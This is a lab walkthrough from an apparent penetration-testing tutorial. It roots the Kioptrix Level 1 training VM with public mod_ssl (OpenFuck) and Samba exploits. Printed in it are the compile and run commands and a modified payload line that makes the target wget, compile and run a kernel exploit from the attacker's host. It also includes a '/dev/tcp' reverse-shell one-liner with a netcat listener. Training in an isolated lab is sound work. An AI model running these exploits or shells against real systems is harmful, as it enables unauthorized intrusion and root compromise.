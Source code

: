 .. _Kioptrix Lv1 Exploitation:

Exploitation
============

.. index::
   single: Metasploit
   single: SearchSploit

+-------------+----------------------------+
|**Reference**|:ref:`Metasploit`           |
|             |                            |
|             |:ref:`netcat <netcat>`      |
|             |                            |
|             |:ref:`Python File Transfers`|
|             |                            |
|             |:ref:`SearchSploit`         |
+-------------+----------------------------+



.. _Kioptrix Lv1 SearchSploit:

Gathering Exploits with SearchSploit
------------------------------------

Now that we've discovered a couple vulnerabilities in our target, we should prioritize them according to which we think will be the most likely to succeed (and the easiest to pull off). With that in mind, let's examine our two candidates.

First up, we have the `OpenFuck` exploits for `Apache`. There are three different `EDB-ID` entries listed. We can examine them with `SearchSploit`'s ``-x`` flag, followed by their ID number. The second exploit appears to be an improvement on the first, and the third an improvement on the second, so we'll put the first two aside and focus on the last exploit, with ID 47080. Looking through the source code, this version appears to have options for our target's operating system and `Apache` versions:

.. code-block:: c

    [...]
    {"RedHat Linux 7.2 (apache-1.3.20-16)1",0x080994e5},
    {"RedHat Linux 7.2 (apache-1.3.20-16)2",0x080994d4},
    [...]

We'll create a copy of this exploit using `SearchSploit`'s ``-m`` flag:

.. code-block:: none

    kali@kali:~$ searchsploit -m 47080
      Exploit: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)
          URL: https://www.exploit-db.com/exploits/47080
         Path: /usr/share/exploitdb/exploits/unix/remote/47080.c
    File Type: C source, ASCII text, with CRLF line terminators

    Copied to: /home/kali/47080.c

Examining the `Samba` exploit, we can likewise see that the target OS is listed in the exploit's available targets:

.. code-block:: c

    [...]
    { "samba-2.2.x - Redhat 7.x           ", 0xbffff310, linux_bindcode, 0 },
    [...]

We'll copy this exploit as well:

.. code-block:: none

    kali@kali:~$ searchsploit -m 10
      Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
          URL: https://www.exploit-db.com/exploits/10
         Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
    File Type: C source, ASCII text, with CRLF line terminators

    Copied to: /home/kali/10.c

Next, we'll attempt to compile both exploits. To keep track of which is which, we'll rename them appropriately:

.. code-block:: none

    kali@kali:~$ mv 47080.c OpenFuck.c
    kali@kali:~$ mv 10.c samba_exploit.c

Next, we'll compile each according to the instructions outlined within each file.


Compiling the mod_ssl Exploit
------------------------------
The `mod_ssl` exploit provides the following command line for compilation, but `Kali` responds with an error:

.. code-block:: none

    kali@kali:~$ gcc -o OpenFuck OpenFuck.c -lcrypto
    OpenFuck.c:21:10: fatal error: openssl/ssl.h: No such file or directory
       21 | #include <openssl/ssl.h>
          |          ^~~~~~~~~~~~~~~
    compilation terminated.

It appears we're missing the ``openssl/ssl.h`` file, which is necessary for compilation. Using `Google`, we can see if anyone else has had any luck compiling this exploit by searching for ``compile openfuck.c kali``.

.. figure:: images/5-google-openfuck.png
   :width: 400px
   :align: center
   :alt: Search results for "compile openfuck.c kali"

   Search results for ``compile openfuck.c kali``

The first link directs us to a `Medium` article that has a series of steps for compiling the exploit. But the second link looks even more appealing: it's an updated version of the `OpenFuck` exploit created in 2018. This seems promising! Let's check it out.

Clicking the link takes us to a `GitHub repository <https://github.com/heltonWernik/OpenLuck>`_ containing the ``OpenFuck.c`` source code and a ``README.md`` file containing compilation instructions. First, we should download the ``OpenFuck.c`` file. To do this, click the ``OpenFuck.c`` link, then click the **Raw** button on the top right of the source-code listing. This will provide us with the plain-text version of the code, which we can copy-and-paste into an ``OpenLuck.c`` file on `Kali`.

After saving the updated ``OpenLuck.c`` source code, we'll return to the README page and follow the directions for compiling the software. First, it says to install the `libssl-dev` software using `apt-get`:

.. code-block:: none

    kali@kali:~$ sudo apt-get install libssl-dev
    Reading package lists... Done
    Building dependency tree
    Reading state information... Done
    [...]
    Preparing to unpack .../libssl-dev_1.1.1d-2_amd64.deb ...
    Unpacking libssl-dev:amd64 (1.1.1d-2) ...
    Setting up libssl-dev:amd64 (1.1.1d-2) ...

.. note::

    If you're using a secondary `host-only` network to communicate between `Kali` and the target system, you might need to switch to the primary network interface in order to allow `Kali` to access the internet and install this software. Once you're done, you can switch back to the secondary network in order to continue targeting `Kioptrix`.

With the appropriate library installed, compile the `OpenLuck` binary. If everything goes correctly, you should see no output, and you'll find the `OpenLuck` executable in your current directory:


.. code-block:: none

    kali@kali:~$ gcc -o OpenLuck OpenLuck.c -lcrypto
    kali@kali:~$ ls -lah OpenLuck
    -rwxr-xr-x 1 kali kali 43K Apr  7 13:41 OpenLuck

Great! The exploit has been compiled. On to the next...


Compiling the Samba Exploit
---------------------------
Reading the source code of the ``samba_exploit.c`` file, we can see no special compilation instructions, so let's just compile it with a straightforward `gcc` command. We'll use the ``-o`` flag, followed by a filename, in order to name the resulting executable:

.. code-block:: none

    kali@kali:~$ gcc samba_exploit.c -o samba_exploit
    kali@kali:~$ ls -lah samba_exploit
    -rwxr-xr-x 1 kali kali 41K Apr  7 13:46 samba_exploit

As before, if compilation is successful, we should see no output from the `gcc` command, and the ``samba_exploit`` executable should be in the same directory.

Finally! It's time to test our exploits. Since we were able to compile both exploits, we'll just test them in alphabetical order: `Apache` first, then `Samba`.

.. warning::

    Before using any public exploits downloaded from the internet, it's always a good idea to read the exploit's source code. This is important for a number of reasons:

    * The exploit might require modification in order to work on your system or against your target.
    * By reading the source, you can gain a better understanding of how the exploit works.
    * Hackers have been known to release malicious "exploit" code which, when compiled and executed, actually harms the user's computer instead of working as expected. This has been done as an attack against "script kiddies" who download and run exploits without taking the time to understand how they work.

    By reading the source code of each exploit before you compile and execute it, you can not only improve your hacking knowledge and ensure that the code runs smoothly, but you can also protect yourself against malicious code.


Exploiting Apache's mod_ssl
---------------------------
To see how to run the ``OpenLuck`` exploit, we'll just execute the file with no command-line arguments:

.. code-block:: none

    kali@kali:~$ ./OpenLuck

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    : Usage: ./OpenLuck target box [port] [-c N]

      target - supported box eg: 0x00
      box - hostname or IP address
      port - port for ssl connection
      -c open N connections. (use range 40-50 if u dont know)


      Supported OffSet:
    [...]
            0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
            0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2
    [...]

    Fuck to all guys who like use lamah ddos. Read SRC to have no surprise

According to the instructions, we must define the target of the exploit using a hexadecimal-formatted offset code, as well as the IP of the target. The port and ``-c N`` settings are optional, but we should at least specify the port to be as specific as possible.

Looking through the list of supported offsets (which I've pruned for brevity), we can see two possible options for `Red Hat Linux` version 7.2 with `Apache` version 1.3.20. Reading through the instructions provided on the `OpenLuck GitHub` page, it is advised to use the ``-c 40`` option to specify a count value of 40. Let's run the command, targeting `Kioptrix` on port 443:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6a 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
    * #hackarena  irc.brasnet.org                                     *
    * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
    * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
    * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
    *******************************************************************

    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f1c70
    Ready to send shellcode
    Spawning shell...
    Good Bye!

Curious... The exploit didn't work. Let's repeat the procedure, using the second offset (``0x6b``) and see if it works:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6b 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f8068
    Ready to send shellcode
    Spawning shell...
    bash: no job control in this shell
    bash-2.05$
    exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
    --18:39:24--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to dl.packetstormsecurity.net:80...
    dl.packetstormsecurity.net: Host not found.
    gcc: ptrace-kmod.c: No such file or directory
    gcc: No input files
    rm: cannot remove `ptrace-kmod.c': No such file or directory
    bash: ./p: No such file or directory
    bash-2.05$
    bash-2.05$

We got a shell! But what's all this about ``dl.packetstormsecurity.net``? Looking back at the source code to the exploit, we will discover the following lines:

.. code-block:: c

    [...]
    #define COMMAND1 "TERM=xterm; export TERM=xterm; exec bash -i\n"
    #define COMMAND2 "unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
    [...]

Curious! From the looks of it, upon receiving a shell, the exploit attempts to execute these two commands on the target system. The first seems normal enough, but the second looks like it's reaching out to ``dl.packetstormsecurity.net`` to download and compile additional code. While this might work fine on a target connected to the Internet, I've configured `Kioptrix` to use a `host-only` network, which prevents it from being able to communicate with the outside world. Therefore, when it attempts to download this file, the download will fail, and the exploit will not run.

Despite this error, we've still got a shell. To which account do we have access?

.. code-block:: none

    bash-2.05$ id
    id
    uid=48(apache) gid=48(apache) groups=48(apache)

We're logged in as the ``apache`` user. From here, we would typically need to find a method of privilege escalation in order to gain access to the ``root`` account... But perhaps this is what the `OpenLuck` script was trying to do by downloading that file from `packetstormsecurity.net`?

Let's fix this script and see if we can grant `OpenLuck` access to this ``ptrace-kmod.c`` file. First, we'll download the ``ptrace-kmod.c`` file from `the specified URL <http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c>`_, making sure to inspect this code to see what it's doing. As suspected, it appears to be a `Linux` kernel privilege-escalation exploit. Copy the contents of this file, then paste them into a file called ``ptrace-kmod.c`` on your `Kali` system. Next, we'll need to modify the ``OpenLuck.c`` source code to download this file from our `Kali` host. Change the code as follows, injecting your own IP into ``COMMAND2``:

.. code-block:: c

    [...]
    #define COMMAND1 "TERM=xterm; export TERM=xterm; exec bash -i\n"
    #define COMMAND2 "unset HISTFILE; cd /tmp; wget http://10.1.1.100/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
    [...]

Next, re-compile the software as before:

.. code-block:: none

    kali@kali:~$ gcc -o OpenLuck OpenLuck.c -lcrypto

With this complete, we only have one more step to accomplish before we can run the exploit against the target once more: we need to host the ``ptrace-kmod.c`` file with an HTTP server so that the target system can download it according to the command we provided. To accomplish this, open a new terminal in the same directory where the ``ptrace-kmod.c`` file is stored, and use `Python 3` to launch an HTTP server:

.. _Koptrix Lv1 Python HTTP Server:

.. code-block:: none

    kali@kali:~$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

With this `Python 3` HTTP server in-place, let's run the exploit one more time:

.. code-block:: none

    kali@kali:~$ ./OpenLuck 0x6b 10.1.1.102 443 -c 40

    *******************************************************************
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
    *******************************************************************
    [...]
    Connection... 40 of 40
    Establishing SSL connection
    cipher: 0x4043808c   ciphers: 0x80f8068
    Ready to send shellcode
    Spawning shell...
    bash: no job control in this shell
    bash-2.05$
     p ptrace-kmod.c; rm ptrace-kmod.c; ./p; http://10.1.1.100/ptrace-kmod.c; gcc -o
    --18:46:07--  http://10.1.1.100/ptrace-kmod.c
               => `ptrace-kmod.c'
    Connecting to 10.1.1.100:80... connected!
    HTTP request sent, awaiting response... 200 OK
    Length: 3,737 [text/plain]

        0K ...                                                   100% @   3.56 MB/s

    18:46:07 (3.56 MB/s) - `ptrace-kmod.c' saved [3737/3737]

    [+] Attached to 1411
    [+] Waiting for signal
    [+] Signal caught
    [+] Shellcode placed at 0x4001189d
    [+] Now wait for suid shell...

Bingo! Checking on our `Python 3` HTTP server, we can see that the target downloaded the ``ptrace-kmod.c`` file:

.. code-block:: none

    kali@kali:~$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.1.1.102 - - [07/Apr/2020 14:45:52] "GET /ptrace-kmod.c HTTP/1.0" 200 -

To top it off, it appears as if the secondary exploit was successfully compiled and executed on the target. There's no visible command prompt, but perhaps if we execute the `id` and `whoami` commands, we can figure out whether the privilege escalation attack was successful:

.. code-block:: none

    id
    uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
    whoami
    root

Excellent! We've got a shell as the ``root`` user! We have successfully completed this challenge. But what about that `Samba` exploit? Let's see if we can get it working, too. After all, if this were a real penetration test, the goal wouldn't just be to "get root," but to reveal and demonstrate all of the vulnerabilities on the system.


.. _Kioptrix Lv1 Samba:

Exploiting Samba
----------------
Let's run the `Samba` exploit without any command-line arguments, just to see how it works:

.. code-block:: none

    kali@kali:~$ ./samba_exploit
    samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
    --------------------------------------------------------------
    Usage: ./samba_exploit [-bBcCdfprsStv] [host]

    -b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
    -B <step>       bruteforce steps (default = 300)
    -c <ip address> connectback ip address
    -C <max childs> max childs for scan/bruteforce mode (default = 40)
    -d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
    -f              force
    -p <port>       port to attack (default = 139)
    -r <ret>        return address
    -s              scan mode (random)
    -S <network>    scan mode
    -t <type>       presets (0 for a list)
    -v              verbose mode

From the looks of it, we'll need to specify the platform at a minimum, using the ``-b`` flag. Let's give it a shot:

.. code-block:: none

    kali@kali:~$ ./samba_exploit -b 0 10.1.1.102
    samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
    --------------------------------------------------------------
    + Bruteforce mode. (Linux)
    + Host is running samba.
    + Worked!
    --------------------------------------------------------------
    *** JE MOET JE MUIL HOUWE
    Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
    uid=0(root) gid=0(root) groups=99(nobody)

.. index:: netcat

The exploit worked quickly and effectively, and immediately granted root privileges! Can we get a better shell with `bash`? Let's give it a shot. First, we'll start a `netcat` listener on port 443:

.. code-block:: none

    kali@kali:~$ sudo nc -vnlp 443
    listening on [any] 443 ...

Next, execute the following command in the `Samba` exploit terminal:

.. code-block:: none

    nohup bash -i >& /dev/tcp/10.1.1.100/443 0>&1 &

By using the `nohup` command, we can ensure that our new reverse shell will remain open, even if the original `Samba` exploit shell should be closed. Returning to `netcat`, we've got a `bash` shell:

.. code-block:: none

    kali@kali:~$ sudo nc -vnlp 443
    listening on [any] 443 ...
    connect to [10.1.1.100] from (UNKNOWN) [10.1.1.102] 32773
    bash: no job control in this shell
    stty: standard input: Invalid argument
    [root@kioptrix tmp]#

Well done! We've successfully rooted this system via two different exploits.
